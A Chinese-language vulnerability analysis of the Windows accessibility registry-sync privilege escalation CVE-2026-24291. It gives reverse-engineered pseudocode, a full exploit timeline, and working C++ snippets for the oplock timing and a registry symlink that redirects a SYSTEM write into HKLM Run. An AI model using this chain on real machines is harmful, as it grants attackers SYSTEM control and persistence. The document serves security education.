


# Windows本地提权原理 以CVE-2026-24291为例 {#windows本地提权原理-以cve-2026-24291为例}

在之前的章节 [权限提升，从小兵到女王](privilege-escalation.md) 中，我们泛泛的讨论了一些Windows本地提权漏洞的原理，但是没有实际案例，这些原理恐怕也会让读者一头雾水，因此笔者准备了这篇漏洞分析来增加知识密度，正好之前挖掘的漏洞被人报上去公开了（看上去使用了挺久的），我们便以2周前刚公开的CVE-2026-24291作为案例，相信大家可以对windows lpe的内部原理略窥一二。



> **漏洞原理**: 普通用户 → 写HKCU → osk.exe自动同步到HKLM → 锁屏触发SYSTEM进程回写 → oplock精准卡时机 → 注册表符号链接劫持 → SYSTEM权限任意注册表写入

大家注意到了么，漏洞的核心还是结合高权限进程的文件/注册表操作和符号链接这种反射镜面，使得操作转移到其他攻击者控制的位置。<br> 当一个高权限进程需要保证锁屏/UAC等安全桌面场景下的Assistive Technology（辅助技术）设置保持一致，并且要兼顾到所有普通用户时，一个老练的安全研究员就能闻到漏洞的味道了。


接下来让我们进行详细的漏洞分析

## 漏洞详情 {#漏洞详情}

| 项目 | 内容 |
| --- | --- |
| **CVE** | CVE-2026-24291 |
| **别名** | RegPwn |
| **类型** | 逻辑漏洞 + 竞争条件 |
| **效果** | Local Privilege Escalation → SYSTEM |
| **原语** | 任意注册表写入（SYSTEM权限） |
| **前提** | 本地交互式会话，普通用户权限 |
| **核心二进制** | atbroker.exe, osk.exe |
| **修复** | 2026年3月补丁星期二 |
| **影响** | Win10/11, Server 2012-2025 |

---

## 漏洞原理 {#漏洞原理}

### 总结 {#总结}

Windows辅助功能在安全桌面切换时，需要把用户的AT配置同步给SYSTEM进程。这个同步链**没有验证内容**、**中间键用户可写**、**SYSTEM进程盲目回写**。攻击者在回写瞬间用注册表符号链接偷梁换柱，SYSTEM就往攻击者指定的位置写入了攻击者控制的数据。

### 运行机制 {#运行机制}

Windows辅助功能（屏幕键盘osk、讲述人narrator等）在**用户上下文以High Integrity运行**（因为manifest中的UIAccess标志）。这些功能有一套配置同步机制，确保锁屏/UAC等安全桌面场景下AT的设置保持一致。涉及三个注册表位置：

```text
位置A: HKCU\...\Accessibility\ATConfig\osk          ← 用户完全可控
位置B: HKLM\...\Accessibility\Session{N}\ATConfig\osk  ← 用户可写（winlogon授权）
位置C: HKU\.DEFAULT\...\ATConfig\osk                 ← SYSTEM的"HKCU"
```

正常同步流程（锁屏时）：

```text
┌─────────────────────────────────────────────────────────────┐
│                    用户桌面                                   │
│                                                              │
│  用户osk.exe启动 → CRegistryListener监听HKCU变化              │
│  用户写入HKCU → 触发osk自动同步到Session                       │
│                                                              │
│         位置A (HKCU)  ──osk同步──→  位置B (Session)            │
│                                                              │
├──────────────────── LockWorkStation() ──────────────────────┤
│                                                              │
│           安全桌面 — 两个atbroker同时启动                       │
│                                                              │
│  用户上下文atbroker.exe → InteractiveDesktopCopy              │
│         位置A (HKCU)  ──复制──→  位置B (Session)               │
│                                                              │
│  SYSTEM atbroker.exe → LockedDesktopCopy                     │
│         位置B (Session) ──复制──→  位置C (.DEFAULT)            │
│                                                              │
│  SYSTEM osk.exe → _CopyToSessionKey                          │
│         位置C (.DEFAULT) ──复制──→  位置B (Session)  ← 攻击点！ │
│                                                              │
└─────────────────────────────────────────────────────────────┘
```

注意：锁屏时同时启动两个atbroker.exe，一个用户上下文一个SYSTEM。<br> 用户上下文的atbroker再次将HKCU同步到Session，SYSTEM的读取Session写入.DEFAULT。

### 问题在哪 {#问题在哪}



三个致命缺陷叠加：

**缺陷1：盲复制，零验证**<br> `CopyATSettings`和`_CopyToSessionKey`对注册表值做`RegEnumValueW` → `RegSetValueExW`逐个复制。**不检查值名、不检查类型、不检查内容**。攻击者在HKCU写入`ImagePath = evil.exe`，它会原封不动传播到HKLM。

**缺陷2：Session键用户可写**<br> `HKLM\...\Session{N}\ATConfig`由winlogon在登录时创建，并**授予当前用户写权限**。攻击者可以删除这个键、创建符号链接替代它。

**缺陷3：SYSTEM进程盲目回写**<br> SYSTEM osk.exe的`_CopyToSessionKey`从`.DEFAULT`读取值后写回Session键。如果Session键此刻已被替换为符号链接→目标位置，SYSTEM的写入就被重定向了。

### 攻击窗口 {#攻击窗口}

```text
时间线：
────────────────────────────────────────────────────────────→
                    │                    │
    LockedDesktopCopy完成         _CopyToSessionKey开始
    (Session→.DEFAULT)            (.DEFAULT→Session)
                    │                    │
                    └─── 攻击窗口 ────────┘

    在这个窗口内：
    1. 删除Session\ATConfig\osk
    2. 创建符号链接 → 目标注册表键

    然后_CopyToSessionKey的写入就穿过符号链接
    到达攻击者指定的任意位置
```

如何精准卡住这个窗口？**Oplock**。

---

## 逆向分析关键代码 {#逆向分析关键代码}

### atbroker.exe — 配置复制核心 {#atbrokerexe-配置复制核心}

#### wmain (0x1400039c4) — 入口分流 {#wmain-0x1400039c4-入口分流}

```c
// 伪代码，基于IDA反编译
int wmain(int argc, wchar_t** argv)
{
    if (IsInteractiveUser())   // AllocateAndInitializeSid + CheckTokenMembership
    {
        // 用户桌面路径
        // 参数解析: /start, /SessionTransit 等
        if (has_start_param)
        {
            Accommodation::Open("osk");
            StartList::Start(accom);  // 内部调用 InteractiveDesktopCopy
        }
    }
    else
    {
        // SYSTEM路径（安全桌面）
        SettingsCopier::LockedDesktopCopy();  // ← 关键
    }
}
```

**关键判断**：`IsInteractiveUser()`（0x140002e90）通过检查`SECURITY_INTERACTIVE_RID`判断当前是普通用户还是SYSTEM。这决定了复制方向。

#### SettingsCopier::CopyATSettings (0x140011b98) — 盲复制 {#settingscopiercopyatsettings-0x140011b98-盲复制}

```c
// 核心复制函数，InteractiveDesktopCopy和LockedDesktopCopy都调用它
HRESULT CopyATSettings(SettingsCopier* this, HKEY* sourceKey, HKEY* destKey)
{
    auto& accoms = ATManager::GetAccommodations();

    for (each accommodation in accoms)
    {
        WCHAR* atName = accom->name;  // 如 "osk"

        // !! 先清空目标 !!
        RegDeleteTreeW(*destKey, atName);

        // 打开源子键和目标子键
        RegOpenKeyExW(*sourceKey, atName, 0, KEY_READ, &hSrc);
        CRegKey::Create(*destKey, atName, &hDst);  // 如果不存在则创建

        // !! 逐个复制所有值，零验证 !!
        DWORD index = 0;
        while (RegEnumValueW(hSrc, index, name, &nameLen,
                             NULL, &type, data, &dataLen) == ERROR_SUCCESS)
        {
            RegSetValueExW(hDst, name, 0, type, data, dataLen);
            index++;
        }
    }
}
```

> **没有白名单**。没有类型检查。`ImagePath`、`DllPath`、任何值名都会被复制。

#### SettingsCopier::LockedDesktopCopy (0x140011f6c) {#settingscopierlockeddesktopcopy-0x140011f6c}

```c
// SYSTEM进程执行：Session → .DEFAULT
HRESULT LockedDesktopCopy(SettingsCopier* this)
{
    if (IsInteractiveUser()) return;  // 只有SYSTEM执行

    OpenSessionKey(&sessionKey, KEY_READ);      // HKLM\...\Session{N}\ATConfig
    OpenUserConfigKey(&userKey, KEY_ALL_ACCESS); // HKCU\ATConfig (= HKU\.DEFAULT)

    CopyATSettings(this, &sessionKey, &userKey); // Session → .DEFAULT
}
```

#### SettingsCopier::InteractiveDesktopCopy (0x140011e88) {#settingscopierinteractivedesktopcopy-0x140011e88}

```c
// 用户进程执行：HKCU → Session
HRESULT InteractiveDesktopCopy(SettingsCopier* this)
{
    if (!IsInteractiveUser()) return;  // 只有用户执行

    OpenUserConfigKey(&userKey, KEY_READ);          // HKCU\ATConfig
    OpenSessionKey(&sessionKey, KEY_ALL_ACCESS);    // HKLM\Session\ATConfig

    CopyATSettings(this, &userKey, &sessionKey);    // HKCU → Session
}
```

#### CATUtils::SessionKeyString (0x140015844) — 路径构建 {#catutilssessionkeystring-0x140015844-路径构建}

```c
// 构建可预测的Session键路径
void SessionKeyString(CStringT* out)
{
    DWORD sessionId;
    ProcessIdToSessionId(GetCurrentProcessId(), &sessionId);

    // 结果: "Software\Microsoft\Windows NT\CurrentVersion\Accessibility\Session{N}"
    out->Format(L"%s%d",
        L"Software\\Microsoft\\Windows NT\\CurrentVersion\\Accessibility\\Session",
        sessionId);
}
```

> **路径可预测**。攻击者知道自己的Session ID，就能算出完整路径。

---

### 2.2 osk.exe — SYSTEM写入触发器 {#h-22-oskexe-system写入触发器}

#### CRegistryListener::Register (0x14001aa68) — 监听注册 {#cregistrylistenerregister-0x14001aa68-监听注册}

```c
void Register(CRegistryListener* this, LPCWSTR appSubkey, HWND hwnd)
{
    // 打开 HKCU\Software\Microsoft\Osk
    RegOpenKeyExW(HKCU, L"Software\\Microsoft\\Osk", ...);

    // 注册变化通知
    RegNotifyChangeKeyValue(hKey, TRUE,
        REG_NOTIFY_CHANGE_NAME | REG_NOTIFY_CHANGE_LAST_SET,
        hEvent, TRUE);

    // !! 立即执行一次同步 !!
    _CopyToSessionKey(this);

    // 启动监听线程
    CreateThread(NULL, 0, s_ThreadProc, this, 0, NULL);
}
```

#### CRegistryListener::_CopyToSessionKey (0x14001ae08) — HKCU→Session复制 {#cregistrylistener_copytosessionkey-0x14001ae08-hkcusession复制}

```c
void _CopyToSessionKey(CRegistryListener* this)
{
    WCHAR* appName = this->appName;  // 如 "osk"

    // 源: HKCU\...\ATConfig\{appName}
    CRegKey srcKey;
    srcKey.Open(HKCU, L"...\ATConfig\\" + appName, KEY_READ);

    // 目标: HKLM\...\Session{N}\ATConfig\{appName}
    CRegKey dstKey;
    WCHAR sessionPath[...];
    CATUtils::SessionKeyString(sessionPath);
    dstKey.Create(HKLM, sessionPath + L"\ATConfig\" + appName, KEY_READ | KEY_WRITE);

    // !! 逐个复制所有值，零验证 !!
    DWORD index = 0;
    while (RegEnumValueW(srcKey, index, ...) == ERROR_SUCCESS)
    {
        RegSetValueExW(dstKey, name, 0, type, data, dataLen);  // ← SYSTEM写入！
        index++;
    }
}
```

> **这就是被符号链接劫持的写入操作。** SYSTEM osk.exe调用`RegSetValueExW`写入Session键，如果Session键是符号链接，写入被重定向。

#### CRegistryListener:: s_ThreadProc (0x14001b3b0) — 无限循环监听 {#cregistrylistener-s_threadproc-0x14001b3b0-无限循环监听}

```c
DWORD WINAPI s_ThreadProc(CRegistryListener* this)
{
    while (!shutdownFlag)
    {
        WaitForSingleObject(hChangeEvent, INFINITE);  // 等待HKCU变化

        _CopyToSessionKey(this);  // 重新同步

        // 重新注册通知
        RegNotifyChangeKeyValue(hKey, TRUE,
            REG_NOTIFY_CHANGE_LAST_SET, hChangeEvent, TRUE);

        SendMessageW(hwnd, WM_USER + 0x1E9, 0, 0);
    }
}
```

> **无速率限制**。每次HKCU变化都触发一次同步。攻击者可以无限重试。

---

## 完整利用链 {#完整利用链}

```text
攻击者 (普通用户)                            系统 (SYSTEM)
═══════════════                            ══════════════

Step 1: 启动osk.exe
        │
        │  osk.exe启动 → Register()
        │  → s_ThreadProc开始监听HKCU变化
        ▼
Step 2: 写入HKCU\ATConfig\osk\ImagePath = "evil.exe"
        │
        │  RegNotifyChangeKeyValue触发
        │  → _CopyToSessionKey()
        │  → HKCU\ATConfig\osk 复制到 Session\ATConfig\osk
        ▼
        Session\ATConfig\osk\ImagePath = "evil.exe"  ✓ 值已就位
        │
Step 3: 在oskmenu.xml上设置exclusive oplock
        │
Step 4: LockWorkStation() ──────────────────→ 进入安全桌面
                                              │
                                    SYSTEM atbroker.exe启动
                                    → LockedDesktopCopy()
                                    → Session → .DEFAULT
                                              │
                                    .DEFAULT\ATConfig\osk\ImagePath = "evil.exe"
                                              │
                                    SYSTEM osk.exe启动
                                    → 读取oskmenu.xml
                                    → 触发oplock ──────────→ 攻击者收到通知！
        │                                     │
Step 5: oplock回调:                            │ (osk.exe被挂起等待oplock释放)
        │                                     │
        ├─ RegDeleteKey(Session\ATConfig\osk)  │
        │                                     │
        ├─ RegCreateKeyExW(同一路径,            │
        │    REG_OPTION_CREATE_LINK |          │
        │    REG_OPTION_VOLATILE)              │
        │                                     │
        ├─ RegSetValueExW(                     │
        │    "SymbolicLinkValue",              │
        │    REG_LINK,                         │
        │    "\Registry\Machine\...\Run")      │
        │                                     │
        │  符号链接就位！                        │
        │  Session\ATConfig\osk               │
        │    → HKLM\...\Run                   │
        │                                     │
Step 6: Acknowledge oplock ────────────────→ osk.exe继续执行
                                              │
                                    _CopyToSessionKey()
                                    → RegSetValueExW(
                                        Session\ATConfig\osk,  ← 跟随符号链接！
                                        "ImagePath",
                                        "evil.exe")
                                              │
                                    实际写入: HKLM\...\Run\ImagePath = "evil.exe"
                                              │
                                              ▼
                                    ✓ SYSTEM权限任意注册表写入完成
```

### 步骤 {#步骤}

| # | 谁执行 | 做什么 | 关键API/函数 |
| --- | --- | --- | --- |
| 1 | 攻击者 | 启动osk.exe | `ShellExecuteExW` |
| 2 | 攻击者 | 等5秒让osk初始化 | `Sleep(5000)` |
| 3 | 攻击者 | 写HKCU\ATConfig\osk{valueName} = | `RegCreateKeyExW` + `RegSetValueExW` |
| 4 | osk.exe(用户) | 自动同步HKCU → Session | `_CopyToSessionKey` (自动) |
| 5 | 攻击者 | 打开oskmenu.xml (GenericRead, 不共享Read) | `CreateFileW` |
| 6 | 攻击者 | 请求exclusive Level 1 oplock | `DeviceIoControl(FSCTL_REQUEST_OPLOCK_LEVEL_1)` |
| 7 | 攻击者 | 锁屏 | `LockWorkStation()` |
| 8 | atbroker(SYSTEM) | Session → .DEFAULT | `LockedDesktopCopy` → `CopyATSettings` |
| 9 | osk.exe(SYSTEM) | 读oskmenu.xml → **触发oplock** | `CreateFileW`(内部) |
| 10 | 攻击者 | 删Session键 | `RegDeleteKeyW` |
| 11 | 攻击者 | 创建符号链接 | `RegCreateKeyExW(CREATE_LINK\|VOLATILE)` |
| 12 | 攻击者 | 设置链接目标 | `RegSetValueExW("SymbolicLinkValue", REG_LINK)` |
| 13 | 攻击者 | 释放oplock | `DeviceIoControl(FSCTL_OPLOCK_BREAK_ACK_NO_2)` |
| 14 | osk.exe(SYSTEM) | .DEFAULT → Session (穿过符号链接) | `_CopyToSessionKey` → `RegSetValueExW` |
| 15 | 攻击者 | 等5秒，删符号链接 | `RegOpenKeyEx(OPEN_LINK)` + `NtDeleteKey` |

---

## 关键利用代码 {#关键利用代码}

### Oplock设置 {#oplock设置}

```cpp
// !! 必须用GENERIC_READ，不能用FILE_READ_ATTRIBUTES !!
// !! 必须不共享Read，否则其他进程的读不会冲突 !!
HANDLE hFile = CreateFileW(
    L"C:\\Program Files\\Common Files\\microsoft shared\\ink\\fsdefinitions\\oskmenu.xml",
    GENERIC_READ,                              // 不是FILE_READ_ATTRIBUTES
    FILE_SHARE_WRITE | FILE_SHARE_DELETE,       // 没有FILE_SHARE_READ !!
    NULL,
    OPEN_EXISTING,
    FILE_FLAG_OVERLAPPED,
    NULL
);

OVERLAPPED overlapped = { 0 };
overlapped.hEvent = CreateEventW(NULL, TRUE, FALSE, NULL);

// !! 必须用Level 1 exclusive oplock !!
// !! 不是FSCTL_REQUEST_OPLOCK + cache level !!
DeviceIoControl(
    hFile,
    FSCTL_REQUEST_OPLOCK_LEVEL_1,   // exclusive，不是cache-level
    NULL, 0,
    NULL, 0,
    NULL,
    &overlapped
);
// 返回ERROR_IO_PENDING = 正常，oplock已设置
```

> **为什么必须这样？**
>
> - `GENERIC_READ` + 不共享Read = 我们独占文件的Read。当SYSTEM osk.exe尝试读取oskmenu.xml时，它的`CreateFileW`发现Read被我们独占 → 触发oplock break。
> - 如果用`FILE_READ_ATTRIBUTES`或共享Read，别的进程可以随便读，oplock永远不触发。
> - 如果用cache-level oplock (`FSCTL_REQUEST_OPLOCK`)而不是Level 1 exclusive，break条件不同，可能不触发。

### 操作顺序 — 先osk后写HKCU {#操作顺序-先osk后写hkcu}

```cpp
// !! 顺序错误 = 完全不工作 !!

// 正确: 先启动osk (注册监听器)，再写HKCU (触发同步)
ShellExecuteExW(&sei);    // 启动osk.exe
Sleep(5000);              // 等osk完成初始化 + s_ThreadProc就绪
RegSetValueExW(hkcu, ...); // 写HKCU → 触发RegNotifyChangeKeyValue → 自动同步到Session

// 错误: 先写HKCU，再启动osk
// osk还没启动，没有监听器，HKCU的写入不会触发任何同步
// Session键里没有我们的值，整个链就断了
```

### 注册表符号链接创建 — volatile是必须的 {#注册表符号链接创建-volatile是必须的}

```cpp
// 在oplock回调中执行:

// 1. 删除原Session\ATConfig\osk键
RegDeleteKeyW(HKEY_LOCAL_MACHINE,
    L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Accessibility\\Session2\\ATConfig\\osk");

// 2. 在同一路径创建符号链接键
HKEY hKey;
DWORD disp;
RegCreateKeyExW(
    HKEY_LOCAL_MACHINE,
    L"SOFTWARE\\...\\Session2\\ATConfig\\osk",
    0, NULL,
    REG_OPTION_CREATE_LINK | REG_OPTION_VOLATILE,  // !! 两个标志都必须 !!
    KEY_WRITE,
    NULL, &hKey, &disp
);
// REG_OPTION_CREATE_LINK: 标记为符号链接键
// REG_OPTION_VOLATILE: Session键的子键必须volatile (否则STATUS_CHILD_MUST_BE_VOLATILE)

// 3. 设置链接目标
WCHAR target[] = L"\\Registry\\Machine\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
DWORD dataLen = (DWORD)(wcslen(target) * sizeof(WCHAR));  // !! 不含null终止符 !!

RegSetValueExW(
    hKey,
    L"SymbolicLinkValue",  // 固定值名
    0,
    REG_LINK,              // 固定类型
    (BYTE*)target,
    dataLen                // REG_LINK要求不含null终止符
);
RegCloseKey(hKey);
```

> **三个必须：**
>
> 1. `REG_OPTION_CREATE_LINK` — 告诉注册表这是符号链接
> 2. `REG_OPTION_VOLATILE` — 父键(Session)是volatile的，子键必须也是
> 3. 值名必须是 `"SymbolicLinkValue"`，类型必须是 `REG_LINK`，数据不含null终止符

### Oplock Acknowledge — 别忘了放行 {#oplock-acknowledge-别忘了放行}

```cpp
// 符号链接创建完毕后，必须acknowledge oplock
// 否则SYSTEM osk.exe永远挂在那里等oplock释放，不会执行写入

DeviceIoControl(
    hFile,
    FSCTL_OPLOCK_BREAK_ACK_NO_2,  // acknowledge但不降级为Level 2
    NULL, 0,
    NULL, 0,
    NULL,
    &ackOverlapped
);

// 此时osk.exe(SYSTEM)从挂起恢复
// → 继续执行_CopyToSessionKey
// → RegSetValueExW写入Session\ATConfig\osk
// → 跟随符号链接 → 实际写入目标键
```

### 符号链接删除 — 不能跟随 {#符号链接删除-不能跟随}

```cpp
// 删除符号链接本身，不能跟随到目标
// REG_OPTION_OPEN_LINK (0x0008) = Win32版的OBJ_OPENLINK

HKEY hKey;
RegOpenKeyExW(
    HKEY_LOCAL_MACHINE,
    L"SOFTWARE\\...\\Session2\\ATConfig\\osk",
    REG_OPTION_OPEN_LINK,  // !! 打开链接本身 !!
    DELETE,
    &hKey
);

// 用NtDeleteKey删除（RegDeleteKey不支持OPEN_LINK标志）
NtDeleteKey((HANDLE)hKey);
RegCloseKey(hKey);
```
